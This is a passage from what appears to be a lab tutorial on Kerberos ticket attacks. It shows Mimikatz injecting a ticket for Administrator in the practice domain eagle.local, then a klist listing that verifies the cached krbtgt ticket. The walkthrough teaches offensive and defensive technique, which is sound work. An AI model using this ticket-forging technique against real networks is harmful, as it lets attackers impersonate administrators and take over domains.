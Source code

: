 ![mimikatz-2](img/mimikatz-2.png)

The output shows that `Mimikatz` injected the ticket in the current session, and we can verify that by running the command `klist` (after exiting from `Mimikatz`):

```cmd
mimikatz # exit

Bye!

C:\Mimikatz>klist

Current LogonId is 0:0x9cbd6

Cached Tickets: (1)

#0>     Client: Administrator @ eagle.local
        Server: krbtgt/eagle.local @ eagle.local
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 10/13/2022 13/10/2022 06.28.43 (local)
        End Time:   10/13/2022 13/10/2022 06.36.43 (local)
        Renew Time: 10/13/2022 13/10/2022 06.35.43 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```
